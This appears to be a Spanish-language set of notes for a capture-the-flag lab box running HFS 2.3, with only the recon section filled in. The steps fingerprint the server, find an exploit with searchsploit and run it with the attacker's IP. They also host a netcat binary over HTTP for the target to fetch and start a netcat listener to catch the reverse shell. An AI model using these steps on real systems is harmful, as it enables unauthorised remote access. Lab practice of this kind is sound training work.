 ## Summary

- IP -> 10.10.10.8
- Ports -> TCP (), UDP (idk)
- OS ->  
- Services & Applications
    -  -> 
    -  -> 

## Recon
- Comando -> **whatweb http://< URL>**  Nos dara una breve descripcion del gestor de contenidos del puerto 80
- Comando -> **searchsploit HFS 2.3** Buscamos vulnerabilidades, si encontramos con .py mucho mejor
Al exploit (2) en python lo modificamos, colocandoles nuestra IP
- **python2 hfs_exploit.py 10.10.10.8 80** Lo ejecutamos, en donde la especificamos la IP victima y su puerto 

Nos descargamos el netcat ya que debemos de ejecutar el comando anterior minimo 2 veces en donde buscara el netcat con un recurso compartido (El netcat debe ser para Windows) por lo que nos lo descargamos 
- **python3 -m http.server 80** Montamos el recurso compartido 
- **rlwrap nc -nlvp 443** Nos ponemos en escucha para recibir la revershell

## User


## Root